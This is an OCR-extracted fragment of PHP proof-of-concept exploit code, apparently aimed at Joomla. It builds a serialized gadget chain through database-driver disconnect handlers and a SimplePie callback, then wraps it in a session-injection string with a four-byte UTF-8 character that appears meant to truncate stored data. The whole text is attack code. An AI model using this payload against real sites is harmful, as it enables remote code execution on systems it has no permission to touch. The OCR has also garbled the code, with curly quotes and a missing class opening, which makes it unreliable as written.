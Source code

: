 ```
$this->sanitize = new JDatabaseDriverMysql();

$this->cache = true;

}

}

class JDatabaseDriverMysqli {

protected $a;

protected $disconnectHandlers;

protected $connection;

function __construct()

{

$this->a = new JSimplepieFactory();

$x = new SimplePie();

$this->connection = 1;

$this->disconnectHandlers = [

[$x, “init”],

];

}

}

$a = new JDatabaseDriverMysqli();

$poc = serialize($a);

$poc = str_replace("\x00*\x00", ‘\0\0\0’, $poc); `echo “123}__test|{$poc}\xF0\x9D\x8C\x86”;` 
```
